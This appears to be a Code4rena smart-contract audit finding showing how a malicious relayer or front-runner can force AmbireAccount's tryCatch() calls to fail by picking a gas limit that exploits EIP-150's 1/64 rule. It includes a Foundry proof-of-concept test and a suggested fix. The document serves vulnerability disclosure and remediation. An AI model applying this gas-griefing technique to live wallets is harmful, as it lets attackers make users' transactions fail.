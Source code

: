 ## Tags

- bug
- 2 (Med Risk)
- satisfactory
- selected for report
- M-02

# [Attacker can force the failure of transactions that use `tryCatch`](https://github.com/code-423n4/2023-05-ambire-findings/issues/18) 

# Lines of code

https://github.com/AmbireTech/ambire-common/blob/5c54f8005e90ad481df8e34e85718f3d2bfa2ace/contracts/AmbireAccount.sol#L119-L123


# Vulnerability details

# Attacker can force the failure of transactions that use `tryCatch`

An attacker or malicious relayer can force the failure of transactions that rely on `tryCatch()` by carefully choosing the gas limit.

## Impact

The `tryCatch()` function present in the AmbireAccount contract can be used to execute a call in the context of a wallet that is eventually allowed to fail, i.e. the operation doesn't revert if the call fails.

https://github.com/AmbireTech/ambire-common/blob/5c54f8005e90ad481df8e34e85718f3d2bfa2ace/contracts/AmbireAccount.sol#L119-L123

```solidity
119: 	function tryCatch(address to, uint256 value, bytes calldata data) external payable {
120: 		require(msg.sender == address(this), 'ONLY_IDENTITY_CAN_CALL');
121: 		(bool success, bytes memory returnData) = to.call{ value: value, gas: gasleft() }(data);
122: 		if (!success) emit LogErr(to, value, data, returnData);
123: 	}
```

[EIP-150](https://eips.ethereum.org/EIPS/eip-150) introduces the "rule of 1/64th" in which 1/64th of the available is reserved in the calling context and the rest of it is forward to the external call. This means that, potentially, the called function can run out of gas, while the calling context may have some gas to eventually continue and finish execution successfully. 

A malicious relayer, or a malicious actor that front-runs the transaction, can carefully choose the gas limit to make the call to `tryCatch()` fail due out of gas, while still saving some gas in the main context to continue execution. Even if the underlying call in `tryCatch()` would succeed, an attacker can force its failure, while the main call to the wallet is successfully executed.

## Proof of Concept

The following test reproduces the attack. The user creates a transaction to execute a call using `tryCatch()` to a function of the TestTryCatch contract, which simulates some operations that consume gas. The attacker then executes the bundle by carefully choosing the gas limit (450,000 units of gas in this case) so that the call to TestTryCatch fails due to out of gas, but the main call to `execute()` in the wallet (here simplified by using `executeBySender()` to avoid signatures) gets correctly executed.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/535a969c96e0a6f78781287bd0931b6a).

```solidity
contract TestTryCatch {
    uint256[20] public foo;

    function test() external {
        // simulate expensive operation
        for (uint256 index = 0; index < 20; index++) {
            foo[index] = index + 1;
        }
    }
}

function test_AmbireAccount_ForceFailTryCatch() public {
    address user = makeAddr("user");

    address[] memory addrs = new address[](1);
    addrs[0] = user;
    AmbireAccount account = new AmbireAccount(addrs);

    TestTryCatch testTryCatch = new TestTryCatch();

    AmbireAccount.Transaction[] memory txns = new AmbireAccount.Transaction[](1);
    txns[0].to = address(account);
    txns[0].value = 0;
    txns[0].data = abi.encodeWithSelector(
        AmbireAccount.tryCatch.selector,
        address(testTryCatch),
        uint256(0),
        abi.encodeWithSelector(TestTryCatch.test.selector)
    );

    // This should actually be a call to "execute", we simplify the case using "executeBySender"
    // to avoid the complexity of providing a signature. Core issue remains the same.
    vm.expectEmit(true, false, false, false);
    emit LogErr(address(testTryCatch), 0, "", "");
    vm.prank(user);
    account.executeBySender{gas: 450_000}(txns);

    // assert call to TestTryCatch failed
    assertEq(testTryCatch.foo(0), 0);
}
```

## Recommendation

The context that does the call in `tryCatch()` can check the remaining gas after the call to determine if the remaining amount is greater than 1/64 of the available gas before the external call.

```solidity
  function tryCatch(address to, uint256 value, bytes calldata data) external payable {
      require(msg.sender == address(this), 'ONLY_IDENTITY_CAN_CALL');
+     uint256 gasBefore = gasleft();
      (bool success, bytes memory returnData) = to.call{ value: value, gas: gasleft() }(data);
+     require(gasleft() > gasBefore/64);
      if (!success) emit LogErr(to, value, data, returnData);
  }
```



## Assessed type

Other